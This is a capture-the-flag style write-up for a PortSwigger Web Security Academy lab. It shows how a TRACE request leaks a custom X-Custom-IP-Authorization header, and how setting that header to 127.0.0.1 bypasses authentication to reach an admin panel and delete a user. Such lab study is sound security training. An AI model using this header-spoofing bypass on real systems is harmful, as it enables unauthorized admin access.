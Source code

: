 # [Lab: Authentication bypass via information disclosure](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass)

## Lab

This lab's administration interface has an authentication bypass vulnerability, but it is impractical to exploit without knowledge of a custom HTTP header used by the front-end.

To solve the lab, obtain the header name then use it to bypass the lab's authentication. Access the admin interface and delete Carlos's account.

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

burpsuite scan:
![scan-result.png](./../img/lab-4-active-scan-result.png)

trace request to `/my-account` end point after logged in as `wiener`:

```http
TRACE /my-account HTTP/1.1
Host: 0af9009b03a66c6ac1a83aba004100ff.web-security-academy.net
Cookie: session=S7xNNQuvhrXwXBThALd8C1z6Doh5CC5d

HTTP/1.1 200 OK
Content-Type: message/http
Connection: close
Content-Length: 889

TRACE /my-account HTTP/1.1
Host: 0af9009b03a66c6ac1a83aba004100ff.web-security-academy.net
Cookie: session=S7xNNQuvhrXwXBThALd8C1z6Doh5CC5d
X-Custom-IP-Authorization: 27.76.202.160
```

## Solution

add a `X-Custom-IP-Authorization` header to request with random value:

```http
TRACE /my-account HTTP/1.1
Host: 0af9009b03a66c6ac1a83aba004100ff.web-security-academy.net
Cookie: session=S7xNNQuvhrXwXBThALd8C1z6Doh5CC5d
X-Custom-IP-Authorization: abcd

HTTP/1.1 200 OK
Content-Type: message/http
Connection: close
Content-Length: 889

TRACE /my-account HTTP/1.1
Host: 0af9009b03a66c6ac1a83aba004100ff.web-security-academy.net
Cookie: session=S7xNNQuvhrXwXBThALd8C1z6Doh5CC5d
X-Custom-IP-Authorization: abcd
```

try ``X-Custom-IP-Authorization: 127.0.0.1`:

```http
GET /my-account HTTP/1.1
Host: 0af9009b03a66c6ac1a83aba004100ff.web-security-academy.net
Cookie: session=S7xNNQuvhrXwXBThALd8C1z6Doh5CC5d
X-Custom-IP-Authorization: 127.0.0.1

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Connection: close
Content-Length: 3080

<a href="/admin">Admin panel</a>
```

access admin panel and delete carlos account => solved.
